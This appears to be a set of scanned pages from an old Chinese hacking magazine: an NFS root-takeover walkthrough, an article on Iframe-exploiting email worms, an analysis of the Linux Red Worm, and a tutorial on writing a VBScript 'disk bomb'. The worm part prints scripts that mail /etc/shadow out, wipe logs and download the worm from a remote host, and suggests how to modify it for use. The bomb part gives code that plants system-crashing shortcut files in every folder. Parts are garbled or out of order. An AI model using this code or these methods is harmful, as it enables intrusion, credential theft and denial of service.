接下来我们看看主机的哪些文件系统被出口：
```
NFS>EXPORT
EXPORT LIST FOR DEX:
/EVERYONE
/USR EVERYONE
```
现在就可以安装/文件系统了：
```
NFS>MOUNT /
USING A PRIVILEGED PORT(1021)
MOUNT / TCP,TRANSFER SIZE 8192 BYTES.
```
接下来我们来确定访问这个系统时用的 UID：
```
NFS>STATUS
```
```
USER ID :-2
GROUP ID :-2
REMOTE HOST:DEX
MOUNT PATH:/
TRANSFER SIZE:8192
```
现在我们已经安装了/，而且发现 UID 和 GID 都是 NOBODY。现在我们既然安装了整个文件系统树，那么我们现在就可以查看 /ETC/PASSWD 文件的内容了。
```
NFS>CD /ETC
NFS>CAT PASSWD
```
怎么样看到了吧，不过因为该文件是经过加密的，所以我们无法破解它，但是不要灰心，我们把安装改为/USR，把 UID 和 GID 改为 BIN，而获得二进制文件的访问权：
```
NFS>MOUNT /USR
USING A PRIVILEGED PORT (1022)
MOUNT /USR,TCP,TRANSFER SIZE 8192 BYTES
NFS>UID 2
NFS>GID 2
NFS>STATUS
USER ID :2
GROUP ID :2
REMOTE HOST:DEX
MOUNT PATH :/USR
TRANSFER SIZE :8192
```
现在我们具有该远程系统上 bin 用户的所有特权了，在我们的例子中，该文件系统出口时没有设置会限制 bin 创建或修改文件的能力的任何特殊选项。到了这一步，只需发射回一个 xterm 或创建一个到本地系统的反向通道就能获取对于目标的系统的访问权了。

我们在本地系统创建以下内容的一个脚本文件，并把它命名为 IN.FTPD：
```
#! /BIN/CH
/USR/OPENWIN/BIN.XTERM-DISPLAY10.10.10;
0.0
```
接着在 NFS 交互中 CD 到目标上的 /SBIN 目录，把 IN.FTPD 替换成我们的版本：
```
NFS>CD/SBIN
```
```
NFS>PUT.IN.FTPD
```
最后，我们通过 XHOST 命令允许目标服务器连接回本地的 X 服务器，再执行 FTP 命令以在目标服务器上启动执行 /SBIN.IN.FTPD。
```
XHOST+dex
TO ACCESS CONTROL LIST
FTP dex
CONNECTED dex
```
其结果是在本地系统上显示一个属主为 ROOT 的 XTERM。如下面的交互例子所示，既然目标系统上 IN.FTPD 是以 ROOT 特权从 INETD 中派生执行的，因此 IN.FTPD 将以 ROOT 特权执行我们的脚本，从而导致直接的 ROOT 访问。
```
#ID
UID=O (ROOT)    GID= (ROOT)
```
到此为止，本文已经全部完成，由此可见安全性再高的系统因为配置不当也会出现致命的漏洞。

## (上接第 92 页)
安全服务，包括信息加密、访问控制、认证授权等，如图 2 所示。

小结：两种 VPN 技术上可以互相补充，相互融合。一般采用 IPSec 技术建设基于因特网的安全内联网或外联网，当用户对网络带宽、QoS 有更高要求时，可以进一步布署 MPLS VPN，以提升应用的稳定性。

## IE漏洞病毒逐个教
金山公司

从去年尼姆达病毒开始，新病毒广泛的利用了IE的Iframe漏洞在用户预览或打开信件的时候自动运行，这种入侵方式大大的降低了用户中毒的门槛，使得病毒传播速度大大加快。在之前广泛传播的爱虫和Sircam，只是利用社交工程诱使用户点击运行病毒，分别用了一个月和两周的时间才传播到全球范围，而尼姆达和求职信病毒只用了三天和几个小时的时间就达到同样的效果，不能不说IE的Iframe漏洞在这其中“居功至伟”，这类利用IE漏洞的病毒从去年到今年层出不穷，给我们平时的上网生活与工作带来诸多危险，让我们现在就来逐个认识此类病毒，为防范新病毒做好准备。

## “尼姆达”变种家族 nimda-nimda.e
2001年09月18日被发现，第一个利用IE的Iframe漏洞的病毒；2001年10月30日变种Nimda.E出现；有史以来传播方式最多的病毒。

病毒特征：只要一预览邮件立刻中毒，同时读取用户信件，取出SMTP地址，邮箱地址，利用这些地址将带有蠕虫病毒信件对外发送，且在局域网内传播。该病毒还能通过“即时聊天”以及“FTP程序”传播，具有极高的传染性。它利用微软的Unicode漏洞采用类似“CodeBlue”蠕虫的攻击方式对外随机攻击网站。的方式采用SMTP协议发送带毒邮件。该病毒利用了IFRAME漏洞。当我们预览含有病毒邮件时，病毒邮件体内脚本代码将被执行，如果计算机上所使用的Outlook浏览器存在该漏洞，计算机将被感染。

邮件带有一份名为BINLADEN_BRASIL.EXE的附件，该病毒的附件实际上是一个可执行的文件，但是该蠕虫设置成audio/x-wav的文件类型，因此当Outlook在收到该信件后，若Outlook存在漏洞的话，Outlook会认为该附件是一个声音文件而直接执行它

### “求职信”变种家族 Wantjob(Klez.a-Klez.H)
2001年10月26日 Klez.A；2002年1月23日 Klez.F；2002年4月16日 Klez.K, Klez.L；有史以来传播最广泛的病毒。

病毒特征：通过隐藏在邮件附件中进行传播，是用Visual C++编写的Windows PE EXE文件。除了通过电子邮件及本地局域网传播外，它还会在临时文件夹中创建一个Windows EXE文件，文件名以K开头，如KB180.exe，然后将Win32.Klez病毒写入此文件内，利用的是IE的Iframe漏洞，预览后即会中毒。病毒会利用SMTP协议向外发送病毒邮件，邮件主题从病毒体的列表中随机选取一个：同时会向网络邻居的共享可写目录中写入病毒文件进行传播。每逢偶数月的第13日，该蠕虫会自动运行，且覆盖被感染机器可用磁盘的文件，文件被覆盖后无法恢复，只有从备份中才能重新得到。

### “本·拉登” Win32.BINLADEN
2001年10月25日出现。

通过搜索ICQ网站来取得邮件地址，使用匿名

## “挨立滋”病毒 Worm.Alizee
2001年11月22日被发现。利用IE的IFRAME漏洞来进行侵入和传播。Alizee病毒通过电子邮件散布，其主题不固定，附件名为“whatever.exe”，它在人们预览邮件时，就会自动运行来感染系统。

感染后的系统会利用IE通讯簿，向外发送带毒邮件，会造成企业邮件服务器堵塞。

### “坏透了” Worm.Badtrans
2001年11月27日被发现。利用IE的IFRAME漏洞来进行侵入和传播，即使不点击其中的附件，Badtrans病毒就会自动执行，这种感染方式与其他许多大量发送电子邮件的病毒相似。Badtrans.B 病毒把自己伪装成回复的邮件，具有更高的欺骗性。它还在被感染的计算机系统上安装特洛伊木马程序，使攻击者能够访问被感染的计算机系统，并将被感染系统的IP地址发给病毒的作者。执行后，Badtrans.B病毒能够记录通过键盘输入的所有数据，收集到的数据以加密的方式存储在硬盘上。

携带 Badtrans.B 病毒的电子邮件的附件为 .MP3、.DOC 或 .ZIP 类型的文件，但实际上是带有 .SCR 或 .PIF 等后缀的双扩展名文件。

## “笑哈哈” Worm_Shoho.A 或 Welyah。

2001 年 12 月 20 日首先出现在亚洲。该病毒是用 Visual Basic 编写的。它是一种基于 Windows 的常驻内存型病毒，通过 E-mail 方式传播，利用 IE 的漏洞自动执行，并向 Microsoft Outlook 地址簿中的邮箱反复发送自身，还会随机删除当前目录下的文件，造成系统不能启动。

该网络蠕虫是使用自身的 SMTP 引擎来发送 E-mail 带病毒信件。利用的是 Iframe 漏洞，一旦预览或打开邮件，其附件程序 readme.txt……PIF 就会自动运行。该病毒作者非常狡猾，他将这个附件的两个扩展名称 txt 和 PIF 之间输入了长达 125 个空格，一般人很难发现还有 PIF 扩展名存在。

## “中文求职信” worm.donghe.49152

2002 年 05 月 11 日被发现。利用了 IFRAME 的漏洞使之能在预览时候（IE 有漏洞的版本）运行。病毒运行时会将自己复制到 Windows 的 system 目录，命名为 Explorer.exe，并修改 exe 文件的关联，以使自己下次会再次激活。病毒自动获取用户地址簿中的信息乱发邮件。病毒体内还附带了一个 VBS 病毒，病毒发送邮件有两种形式，一种是将病毒自身作为附件发送，一种是将该 VBS 病毒作为附件（附件名为 hello.vbs）发送。VBS 部分的病毒会修改注册表的启动项以便自己下次能运行，同时修改了 IE 的默认起始页面。

## “中国黑客” Win32.Runouce.6703

2002 年 6 月 7 日被发现。是一例感染型蠕虫，可感染 Windows 的 PE 可执行文件。它同样是以邮件的形式进行传播，病毒邮件具有如下特征：

- 1. 与最近的病毒一样利用了 Iframe 的漏洞；
- 2. 附件名为 p.exe，长度为 10799 字节；
- 3. 取得当前的计算机名，如：计算机名为 test，并以计算机名为名的 hotmail 邮箱向外发信。

## “密码病毒” 变种家族

### W32.Frethem.a - W32.Frethem.k

2002 年 07 月 16 日被发现。此病毒在邮件被打开的时候，就可传播。它是利用了微软 IE 的 IFrame 漏洞，由于许多用户仍未安装相应补丁，使得该病毒能伺机感染。会利用自己的 SMTP 引擎向 Windows 地址簿及 .dbx, .wab, .mbx, .eml, .mdb 文件中的邮件地址发送带毒邮件。

## W32.Chir.B@mm

2002 年 7 月 29 日发现。该病毒既是一个网络共享、电子邮件蠕虫，又是一个文件感染型病毒，会利用自己的 SMTP 引擎向 .WAB(Windows 地址簿)，.dbx, .doc, .xls 文件中的邮件地址发送大量病毒邮件。它同时会搜索所有本地及网络驱动器，并感染后缀为 .htm, .html, .exe 及 .scr 的文件。由于利用了 IFRAME 及 MIME 漏洞，只要预览即会中毒。

金山毒霸等主流杀毒软件都已经能查杀以上病毒。但可以预计将来的病毒会尽可能的利用 IE 或 Windows 的漏洞，我们要如何预防呢？

### 一、安装系统漏洞补丁

由上述的病毒传播方式我们可以知道，即使不执行病毒文件，病毒依然可以藉由系统的漏洞自动执行，达到感染的目的。因此随时安装系统漏洞补丁和升级杀毒软件一样的重要。安装了 IE6 后就可以修补 Iframe 漏洞。但同时也要注意为 IE6 的漏洞打补丁，这些漏洞很可能会被新病毒利用，及早补漏，防范于未然。IE6 补丁下载：

- 1. http://www.microsoft.com/windows/ie/downloads/critical/q313675/download.asp
- 2. http://www.microsoft.com/windows/ie/downloads/critical/q319182/download.asp

### 二、随时升级杀毒软件

这已经是老生常谈的内容了。只安装不更新防毒软件相当于关门只关一半，您需随时更新防毒软件，最好是设置杀毒软件为自动更新。如金山毒霸在工具选项中设置自动升级时间为星期一 09:00。

### 三、注意信件预览功能

从上述病毒得知，若信件夹带恶性的 HTML/Script 语言时即可能会自动执行。因此，即使我们收到的有毒电子邮件并不夹带文件，依然有可能会感染病毒。若您是时常收取病毒信件或文件的高风险群，可以考虑将信件预览功能关闭。

### 四、小心来历不明的信件

假期，难免会收到比平时较多信件；例如贺卡、广告信等，病毒信件也可能夹带其中，若您收到信件主题是“HI”、“How are You” 等基本问候，信件内容是简短的讯息，即使发件人是您的朋友或同事都必须要特别小心。因为有可能是他们中毒了，将病毒邮件在不知道的情况下发送了您。

# Red Worm

## 简单分析

文/bytes

> 虽然“自由Linux”曾风风火火地与微软的Windows争夺天下，有着不俗的表现，但是它“红旗飘飘”仍没有挡住病毒的侵扰。这不，针对Linux的病毒也来凑热闹了。

Red Worm 是一个比较有名的 Linux 平台的蠕虫。国内很多人喜欢用它收集肉鸡。该蠕虫通过利用 Red Hat Linux6.x bind 溢出, Red Hat Linux 6.x 的 RPC.statd 溢出漏洞,Linux wuftp-2.6.0 的溢出漏洞, Red Hat Linux 7.0 的 LPRNG 的格式化字符串漏洞进行传播。我研究这个 Worm 比较久了,一直没有写出结果来,这几天闲着,就此蠕虫分析一下。

```
start-wu26
wuftpd26scan
icmp
mail.sh
pscan-ftpd
start
start.sh
wuscan
```

Red Worm 主要包括网络扫描、后门以及控制部分。

下面我们分开讲。首先，看看启动脚本 start.sh，这个脚本是使用 shell 写的(我们截取主要的讲)。

首先获取 red.tar 包,tar -xvf 解开,一共有如下几个文件:

```
.backdoor
.statdx
.bind
0anacron
icmp.c
mail2.sh
pscan-lprng
start-bind
statdx
bind
lpd
ps
pscan-statdx
start-lprng
statdxscan
bindscan
lpd7.sh
ps.c
randb
start-statd
wuftpd26
getip
lpdscan
pscan-bind
scan.pl
```

```
#!/bin/sh
..........
echo >/var/log/messages # 清除日志.
..........
cc -o icmp icmp.c 1>>/dev/null 2>>/dev/null 3>>/dev/null
cc -o ps ps.c;cp /bin/ps /usr/bin/adore;cp ps /bin;touch -r /usr/bin/adore /bin/ps # 以上编译相关的部件,其中 icmp 是后门程序,ps 则是隐藏进程的进程.他把编译后的 fake ps 程序替换原来的 /bin/ps ,原来的 ps 被复制到 /usr/bin 下面并且改名为 adore.
........................
cp /sbin/klogd /usr/lib/klogd.o;cp icmp /sbin/klogd # 用后门程序替换 klogd。
........................
cp /etc/cron.daily/0anacron 0anacron-bak >>/dev/null 2>>/dev/null;
cp 0anacron /etc/cron.daily # 这里也是替代一些配置文件。

echo ftp >>/etc/ftpusers;echo anonymous >>/etc/ftpusers;# 激活 ftp 服务器的匿名账号。
```

```
echo /*******************HOST IP***********************/ > mail.txt
ifconfig >> mail.txt
echo /**********PS*************/ >> mail.txt
adore -aux >> mail.txt
echo /*******************HISTORY***********************/ >> mail.txt
cat /root/.bash_history >> mail.txt
echo /**********HOSTS*************/ >> mail.txt
cat /etc/hosts >> mail.txt
echo /**********PASSWD*************/ >> mail.txt
cat /etc/shadow >> mail.txt
mail.sh
echo >/var/log/maillog
echo >/var/log/messages
rm -rf go* mail.txt
./start
```

上面这里才是最黑的，它把一些系统敏感信息通过 E-mail 发送出去,包括 shadow,hosts 等，并且清除了日志。蠕虫的 start.sh 中大概为了确保发送的文件能够顺利被收到,所以连续发送两次。

最后运行了 start 程序，我们先看看内容(经检查是一个 shell 脚本)，其中包含了：

```
nohup ./start-bind >>/dev/null &
nohup ./start-statd >>/dev/null &
nohup ./start-lprng >>/dev/null &
```

熟悉 Linux 系统的朋友一定发现了,这个就是启动了某个进程,而且用 nohup 确保登录账号断开,扫描进程也能继续执行。挑一个看看，就把 start-bind 文件打开。发现也是一个 shell 脚本,内容如下:

```
#!/bin/sh
while true
do
    CLASSB='./randb'
    rm -rf bindname.log
    ./pscan-bind $CLASSB 53 >>/dev/null
    ./bindscan >>/dev/null
done
```

看到了 $CLASSB 变量了吗,加上后面的 53(port)?看这个变量的名称,以及 pscan-bind 的文件名基本可以确定,这是一个扫描程序

```
[Bytes@Linuxstation lib]# ./pscan-bind
Usage: ./pscan-bind <b-block> <port> [c-block]
```

果然不出所料,这个就是用来搜索网络上存在 bind 溢出漏洞的服务器的。这个扫描器可以扫描一个 B 类地址或者一个 C 类地址,蠕虫的作者选择了扫描 B 类,因为这样一次可以扫出更多有漏洞的服务器(为什么不直接扫 A 类?怕虫虫爬的太累?)。经过检查其余的 start-* 也大同小异,都是负责控制搜索相对应漏洞的扫描器的。

那么 randb 程序呢?

```
[Bytes@Linuxstation lib]#./randb
17.118
```

是什么东西?原来是随机生成一个 B 类地址(原来就是他提供的替罪羊)。那 scan.pl 是什么东西呢?还有最开头的隐藏文件，就是前面有“.”的。经过检查，scan.pl 是用于从扫描生成的报告文件中分离出 IP，而那些隐藏文件就是控制 exploit 的，也就是从 ip lists 中读取 IP，然后用 exploit 攻击。我们可以随便看一个 .statdx 文件内容:

```
ip="$1"
./statdx -d 0 $ip <.backdoor 1>>/dev/null 2>>/dev/null 3>>/dev/null 4>>/dev/null 5>>/dev/null &
sleep 60
killall -9 statdx 1>>/dev/null 2>>/dev/null 3>>/dev/null
exit 1
```

./statdx -d 参数就是该 exploit 用以选择目标服务器版本的。后面的 .backdoor 是啥?打开看看:

```
TERM="linux"
export PATH="/sbin:/usr/sbin:/bin:/usr/bin:/usr/local/bin"
lynx -dump http://ip/red.tar >/usr/lib/red.tar
[ -f /usr/lib/red.tar ] || exit 0
cd /usr/lib;tar -xvf red.tar;rm -rf red.tar;cd lib;./start.sh
```

这是溢出成功后在新感染主机上执行的命令。

# VIRUS FRONT LINE

./statdx -d 0 $ip <.backdoor 就是导出 .backdoor 中的指令,等待溢出成功后就执行.Red Worm。和许多 Linux 下面的 Worm 类似,采用 lynx 下载它的副本。至于 statdx bind lpd 这几个文件就是 exploit。而 lpd7.sh 呢?

```
#!/bin/sh
#redhat7-lpd
#
if [ "$1" = "" ]; then
  echo "Usage: lpd7 <remote-host> "
  exit
fi
./lpd $1 -t 0 -r 0xbffff3dc
./lpd $1 -t 0 -r 0xbffff128
./lpd $1 -t 0 -r 0xbffff148
./lpd $1 -t 0 -r 0xbffff3c8
./lpd $1 -t 0 -r 0xbffff488
./lpd $1 -t 0 -r 0xbffff3e8
./lpd $1 -t 0 -r 0xbffff3d8
./lpd $1 brute -t 0
```

显然,它是控制针对 Redhat Linux 7.0 LPRNG 的 exploit 的。它提供了一些 ret 地址(提高成功率,快 copy)。这个蠕虫包有 E-mail 通知功能,这一功能通过 mail.sh, mail2.sh 配置,可以配置接收的 E-mail 地址。getip 这个程序是一个 shell 脚本,经过检查,是用来获取 localhost IP 的。至于 ps, icmp 程序,作者提供了源码,先看看 ps.c 部分源码:

```
#define PR "adore" /* Name of hidden ps */
#define PS "/usr/bin/adore" /* full path */
#define ERR "/tmp/.problem" /* error handling */
/*
#define TMP "/tmp/.tmp" /* temporary file */
#define nr 24 /* no. lines in lns */
#define OFFSET 100 /* for a safer world */

char *lns[nr] = { /* fill in what you'd- */
"/bin/sh -i", /* like to be removed */
"xargs",
".bla",
"cat",
"./pscan",
"tail",
"sh ./",
"./bind",
"xargs -l -P",
"sh -c",
```

可以看出这个程序先将真正的 ps 程序输出结果写入一个文件,然后过滤 lns 数组中的进程名,再把过滤后的结果打印在屏幕上,这样起到了隐藏进程的目的(有的 Worm 还会使用 LKM 技术,截获系统调用)。

icmp.c 部分源码如下:

```
#define SIZEPACK 77
#define PORT 65535
```

这就是很有名的 ping backdoor,它接收一个指定大小的 ICMP 报文,再绑定一个 root shell 到 65535,这里默认是接收大小为 77 的包, 就是你在 Windows 下面执行 ping -l 77 ip ,然后就可以连接。

最后讲名称比较古怪的 0anacron。它的作用就是等 Worm 的扫描结束以后终止一些进程,并且恢复被修改的系统。怪不得 ICMP 要替代 klogd, 原来会失去 fake ps 的保护啊。不过这个 Worm 比较高明,它不是像有些 Worm,比如 lion,一进去就扫个没完,使系统越来越慢, Red Worm 这样就使管理员比较难发现被入侵过了。不过这个 Worm 还是有一些破绽,比如它扫描的时候执行 netstat -an 就可以发现它, 还有修改文件的一些方式也可以被当作是它的特征来辨识,类似: `cp /etc/cron.daily/0anacron 0anacron-bak` 在启动脚本中的这句等。

不过这个 Worm 还算是比较不错的。如果你要使用它,至少需要修改 mail2.sh, mail.sh,.backdoor 这几个文件,而且由于大部分负责流程控制的程序使用 shell 编写,所以你很容易给它扩展功能。

最后附一个检查清除的脚本。

### 附录：解决方案:

```
#!/bin/bash
echo " Clean Red Worm Shell Scripts";
echo " Written By Bytes 2002-07-28";
echo " E-mail:bytes2000@163.com";
echo " HomePage:http://ubytes.yeah.net";
echo " Start to check.......";
echo "Now checking 0anacron .....";
echo
echo
if [ -f /etc/cron.daily/0anacron-bak ]; then
  echo "Found Red Worm ! File: 0anacron had changed !";
  mv /etc/cron.daily/0anacron-bak /etc/cron.daily/0anacron
```

## 利用MS漏洞

### 编写炸弹与恢复方法

文/happyman

好多人都用过炸弹，不少人也中过炸弹吧？用过炸弹的人一定想知道自己怎么做炸弹，中过炸弹的人一定想知道怎么恢复“被炸现场”。本文即可满足这两方面的要求。

现在好多菜鸟们还都是 Tools User，平常都是利用别人编好的工具进行入侵和攻击的。什么时候才能编出自己的软件在“肉鸡”上一显身手呢？这可能是好多菜鸟们的愿望吧（包括我）！现在我就来讲一下编制“硬盘炸弹”的具体思路和过程。比较简单，希望高手们多多指教，起到抛砖引玉的作用吧！

声明：本文主要是教学目的。编制“炸弹”并不是本文的目的。主要实验 Microsoft Windows98/2k/XP 所存在的漏洞。请不要做任何违法行为，否则后果自负。

编制“硬盘炸弹”有好多的思路。有改写“BOOT”区，使硬盘不能自举；也有拼命写入一些垃圾文件，使硬盘爆满。咱们怎么编制呢？首先自己要有个思路，应用什么方法。本文介绍的是利用漏洞使 Microsoft Windows98/2k/XP 对硬盘某些文件不能读写。

其实这个漏洞早在 2001 年 10 月 18 日就被 tombkeeper 发现，并发表在安全焦点网站上(www.xfocus.org)；题目是《Windows 快捷方式可能导致本地拒绝服务和用户口令散列值泄漏以及执行恶意程序》 有兴趣的读者可以去看看。 我们不是利用全部的漏洞，只是利用其中的一部分。现在我简单地描述一下!

### 受影响的系统：

Windows 95/98:

- 1. Windows 快捷方式包括扩展名为 .lnk、.pif、.url 的文件。其中 url 文件为纯文本格式，lnk 和 pif 文件为二进制文件。这 3 种快捷方式都可以自定义图标文件。当把图标文件名设定为 Windows 的默认设备名时，由于设备名称解析漏洞，可导致 Windows 95/98 系统崩溃。由于对图标的搜索是由 Explorer 自动完成的，所以只要快捷方式在资源浏览器中出现，就会导致系统崩溃。如果快捷方式在桌面上，那么系统一启动就会崩溃。只有以 DOS 启动系统，在命令行下删除。由于无法直接设置图标文件名为设备名，只有通过直接编辑的方式来创建。
- 2. 测试:

```
------ 把以下代码存为 “crash.url” ------
[InternetShortcut]
URL=http://127.0.0.1/
IconIndex=1
IconFile=C:\con\con.dll
----------------END----------------
```

对于 lnk 和 pif 文件可先改名，再通过 16 进制编辑器更改相应字段。

这是我们将要利用在 Windows 95/98 炸弹的原理，有兴趣的读者可以先在自己的机器上演示一下 。

### 受影响的系统：

- Windows 2000/NT/XP

对于 Windows NT/2000 系统，不会由于设备名称解析而崩溃，但当我们创建一个完全由 ASCII 字符填充组成的 pif 文件时，会出现以下情况:

- 1. 一个非法的 pif 文件（用 ASCII 字符 'x' 填充）至少要 369 字节，系统才认为是一个合法的 pif 文件，才会以 pif 的图标 [pifmgr.dll,0] 显示，才会在属性里有“程序”、“字体”、“内存”、“屏幕”等内容。而且仅仅当一个非 pif 文件的大小是 369 字节时查看属性的“程序”页时，不会


发生程序错误，哪怕是370字节也不行。当对一个大于369字节的非法pif文件查看属性的“程序”页时，Explorer会出错，提示：“0x77650b82”指令引用的“0x00000000”内存。该内存不能为“read”。但这种错误并不会引起缓冲溢出问题。初步分析了一下，问题出在pif文件的16进制地址：0x00000181[0x87]0x00000182[0x01]和0x00000231[0xC3]0x00000232[0x02]。即使是一个合法pif文件，只要改动这4处的任意一处，也会引起程序错误。而只要把0x00000181和0x00000182的值改为[0xFF][0xFF]，那么其他地址任意更改都不会引起错误。



- 2. 当一个大于30857的非法pif文件（用ASCII字符'x'填充）出现在资源管理器中时，会使系统的CPU资源占用达100%，根本不能查看其属性页，也无法在资源管理器中对其进行任何操作，甚至不能在命令提示符中删除。试图删除时会提示：“进程无法访问文件，因为另一个程序正在使用此文件。”但只要把0x00000181和0x00000182中任意一处改为[0xFF]，这种情况就不会发生，这是由于资源浏览器试图显示其实并不存在的图标引起的。如果快捷方式在桌面上，那么系统一启动，这种情况就会出现。只有使用任务管理器中止Explorer.exe的进程，再启动一个命令提示符，从命令行下删除。此问题仅影响Windows NT/2000系统，不影响Windows 95/98。

且知道这都是致命的，都能导致系统崩溃。我的思路就是在硬盘的每个目录写下其中可以使系统崩溃的导致本地拒绝服务的快捷方式文件。当Windows系统一打开存在导致本地拒绝服务的快捷方式文件的目录时，系统就会崩溃！想一想，如果导致本地拒绝服务的快捷方式文件写在桌面（其实也是一个特殊的目录）上，效果会怎么样？你连机器都开不了。现在我们已经有了编制“硬盘炸弹”的思路，下边就是怎么来实现了（这也是编程的流程，要先有思路，才能用语言来实现）。

这是我们将要利用在Windows 2K/NT炸弹的原理，但我在XP机器上发现系统同样存在该漏洞（也可能我的XP版本低），有兴趣的读者可以先在自己的机器上演示一下。效果如图1、图2所示。

对于向硬盘的每个目录下写入固定的文件，实现起来并不是十分的困难，好像用VB、VC++，甚至QBasic GWBasic和批处理文件都能实现。为了演示，我选用VB Script脚本语言来实现。因为编辑VB Script不用什么编程环境，只用微软的记事本就能完成，并且不需要运行的库文件，只要机器里有WSH就行（安装Windows默认安装的），外加容易让读者看懂。下边就是我的VB Script程序：

现在我们已经知道Windows的系列漏洞，并



```vb
On Error Resume Next
' 开起错误陷阱
Set fs = CreateObject("scripting.filesystemobject")
' 以上是声明， 创建 scripting.filesystemobject 对象
Mload
' 调用主程序
Sub mload()
    alldr
    ' 得到所有的驱动器盘符子程序
END SUB
' 主程序 MLOAD
Sub makf(PATT)
    ' 创建快捷方式漏洞文件的子程序
    On Error Resume Next
```

开起错误陷阱，一般编程，特别是炸弹、病毒等程序一定要应用错误陷阱，不然程序可能因为一些想不到的特殊原因而不能运行，像欢乐时光、爱虫等 VBS 病毒都大量应用错误陷阱。

GetFolder 的属性返回包含所有文件夹的一个Folders 集合，这些文件夹包含在某个特定的文件夹中，包括设置了隐藏和系统文件属性的那些文件夹。

```vb
Dim i,X
'建立两个变量 I, X
Set pfc = fs.CreateTextFile(PATT&"\11111111111.PIF", True)
'因为FS是scripting.filesystemobject对象，我们调用CreateTextFile方法，来建立11111111111.PIF文件
x = "x"
For i = 1 To 30858
    pfc.Write X
Next
```

```vb
For Each fl In f
```

如果集合中至少有一个元素，就会进入 For...Each 块执行。一旦进入循环，便先针对 group 中第一个元素执行循环中的所有语句。如果 group 中还有其他的元素，则会针对它们执行循环中的语句。当 group 中的所有元素都执行完了，便会退出循环，然后从 Next 语句之后的语句继续执行。

应用漏洞的原理向文件中加 30858 个“X”，比 30857 就多一个。

```vb
PFC.CLOSE
```

上边的一段是针对 Windows 2000/XP/NT 的快捷方式漏洞文件生成段。

```vb
makf(fl.path)
folderlist ( fl.Path )
Next
End Sub
Sub alldr()
```

```vb
Set pfc = fs.CreateTextFile(PATT&"\22222222222.URL", True)
'我们调用CreateTextFile方法，来建立22222222222.URL文件
pfc.Write "[InternetShortcut]" & vbCrLf
'vbCrLf为VBS的换行符
pfc.Write "URL=http://127.0.0.1/" & vbCrLf
pfc.Write "IconIndex=1" & vbCrLf
pfc.Write "IconFile=C:\con\con.dll" & vbCrLf
PFC.CLOSE
End Sub
```

本子程序是枚举所有的本地磁盘，后调用folderlist 来枚举所有目录。

上边的一段是针对 Windows 95/98 的快捷方式漏洞文件生成段。

```vb
Dim dr, d
On Error Resume Next
Set dr = fs.Drives
'调用FS对象的Drives方法
For Each d In dr
'进入For Each 循环
If d.drivertype = 2 Then
```

```vb
Sub folderlist(foldersp)
'本子程序是通过递归来枚举磁盘下所有的目录
On Error Resume Next
Dim f, fl, sf
Set f = fs.GetFolder(foldersp).SubFolders
```

